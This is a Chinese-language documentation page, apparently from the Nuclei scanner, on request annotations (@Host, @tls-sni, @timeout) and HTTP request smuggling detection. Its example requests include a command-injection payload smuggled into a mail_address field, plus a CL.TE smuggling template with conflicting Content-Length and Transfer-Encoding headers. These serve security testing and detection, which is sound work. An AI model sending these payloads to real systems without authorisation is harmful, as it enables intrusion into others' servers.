 ```yaml
---
title: '请求篡改'
description: "了解使用Nuclei进行HTTP请求篡改"
---
```


## 请求注解

请求内联注解允许执行每个请求的属性/行为覆盖。它们与Python/Java类注解非常相似，必须放在RFC行之前的请求上。目前，仅支持以下覆盖：

- `@Host:` 覆盖请求的实际目标（通常是作为输入提供的host/ip）。它支持带有ip/domain、port和scheme的语法，例如：`domain.tld`、`domain.tld:port`、`http://domain.tld:port`
- `@tls-sni:` 覆盖TLS请求的SNI名称（通常是作为输入提供的hostname）。它支持任何字面值。特殊值`request.host`使用`Host`头，`interactsh-url`使用interactsh生成的URL。
- `@timeout:` 将请求的超时时间覆盖为自定义持续时间。它支持格式化为字符串的持续时间。如果未指定持续时间，则使用默认的Timeout标志值。

以下示例显示了请求中的注解：

```yaml
- |
  @Host: https://projectdiscovery.io:443
  POST / HTTP/1.1
  Pragma: no-cache
  Host: {{Hostname}}
  Cache-Control: no-cache, no-transform
  User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
```
这在多个请求的模板中特别有用，例如，在初始请求之后的一个请求需要发送到特定主机（例如，检查API有效性）：

```yaml
http:
  - raw:
      # 此请求将发送到{{Hostname}}以获取令牌
      - |
        GET /getkey HTTP/1.1
        Host: {{Hostname}}
        
      # 此请求将发送到https://api.target.com:443来验证令牌有效性
      - |
        @Host: https://api.target.com:443
        GET /api/key={{token}} HTTP/1.1
        Host: api.target.com:443

    extractors:
      - type: regex
        name: token
        part: body
        regex:
          # 提取前缀和后缀之间的随机字符串
          - 'prefix(.*)suffix'

    matchers:
      - type: word
        part: body
        words:
          - valid token
```

自定义`timeout`注解的示例 - 

```yaml
- |
  @timeout: 25s
  POST /conf_mail.php HTTP/1.1
  Host: {{Hostname}}
  Content-Type: application/x-www-form-urlencoded
  
  mail_address=%3B{{cmd}}%3B&button=%83%81%81%5B%83%8B%91%97%90M
```

使用`interactsh-url`的`sni`注解示例 - 

```yaml
- |
  @tls-sni: interactsh-url
  POST /conf_mail.php HTTP/1.1
  Host: {{Hostname}}
  Content-Type: application/x-www-form-urlencoded
  
  mail_address=%3B{{cmd}}%3B&button=%83%81%81%5B%83%8B%91%97%90M
```

## 走私

HTTP走私是一类Web攻击，最近由[Portswigger的研究](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn)使其变得流行。如需深入了解，请访问上面链接的文章。

在开源空间中，检测HTTP走私特别困难，因为用于检测的请求本质上是格式错误的。Nuclei能够利用[rawhttp](https://github.com/projectdiscovery/rawhttp)引擎可靠地检测HTTP走私漏洞。

HTTP走私漏洞的最基本示例是CL.TE走私。下面提供了一个使用`unsafe: true`属性基于rawhttp请求检测CE.TL HTTP走私漏洞的示例模板。

```yaml
id: CL-TE-http-smuggling

info:
  name: HTTP request smuggling, basic CL.TE vulnerability
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked
      
      0
      
      G      
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked
      
      0
      
      G
            
    unsafe: true
    matchers:
      - type: word
        words:
          - 'Unrecognized method GPOST'
```

<Tip>
更完整的示例在[这里](/templates/protocols/http/http-smuggling-examples)提供
</Tip>